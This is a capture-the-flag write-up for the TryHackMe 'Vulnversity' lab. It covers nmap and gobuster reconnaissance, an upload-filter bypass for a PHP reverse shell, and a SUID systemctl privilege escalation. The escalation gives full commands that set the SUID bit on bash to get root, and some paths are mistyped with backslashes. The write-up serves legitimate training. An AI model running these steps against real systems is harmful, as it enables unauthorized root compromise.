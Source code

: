  <div align = "center"> 22-Sep-2021, Wednesday<br>
  Notes by: Mayank Kumar Prajapati<br>
  Machine Name: Vulnversity<br>
  URL: https://tryhackme.com/room/vulnversity
</div>
<br><br>

***
**Phase 1: Reconnaissance**
***
`nmap -sV 10.10.227.240`

Scan the box, how many ports are open.\
6

What version of the squid proxy is running on the machine?\
3.5.12

How many ports will nmap scan if the flag -p-400 was used?\
400

Using the nmap flag -n what will it not resolve?\
DNS

What is the most likely operating system this machine is running?\
Ubuntu

What port is the web server running on?\
3333

***
 **Phase 2:  Locating directories using GoBuster**
 ***
`apt install gobuster`\
`gobuster dir -u http://10.10.227.240:3333/ -w /usr/share/wordlists/dirbusterdirectory-list-2.3-medium.txt`\
`gobuster dir -u http://10.10.227.240:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

What is the directory that has an upload form page?\
/internal/

***
**Phase 3: Compromise the webserver**
***

Try upload a few file types to the server, what common extension seems to be blocked?\
.php

Which extension seems to be allowed to upload php reverse shell?\
.pthml \
You can try it out using [extensionChecker.py](https://github.com/mayank-s16/Tryhackme-machines-notes/blob/main/vulnversity/extensionChecker.py "Extension Checker Script") file that is uploaded in thie repo.<br>

What is the name of the user who manages the webserver?\
bill

What is the user flag?\
Find it inside bill's home directory.


***
**Phase 4: Privilege Escalation**
***
In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. 
SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
For example, the binary file to change your password has the SUID bit set on it (`/usr/bin/passwd`).
This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.<br>
Note down the below command for finding out files whose user bit is set.<br>
`find / -perm -u=s -type f 2>/dev/null`\

On the system, search for all SUID files. What file stands out?\
/bin/systemctl

Click [here](https://gtfobins.github.io/gtfobins/systemctl/#suid "GTFOBins SUID for systemctl") to find out privilege escalation using `systemctl` SUID.

Note** You can also set SUID bit of /bin/bash using systemctl GTFObins url. Modify the command part as
> TF=$(mktemp).service\
> echo '[Service]\
> Type=oneshot\
> ExecStart=/bin/sh -c "chmod +s /bin/bash"\
> [Install]\
> WantedBy=multi-user.target' > $TF\
> /bin/systemctl link $TF\
> /bin/systemctl enable --now $TF>

After executing the above commands one by one it will set the uid bit of \bin\bash.
To confirm this thing type the following command.
> ls -l \bin\bash\
Now you can become root.
> \bin\bash -p
---
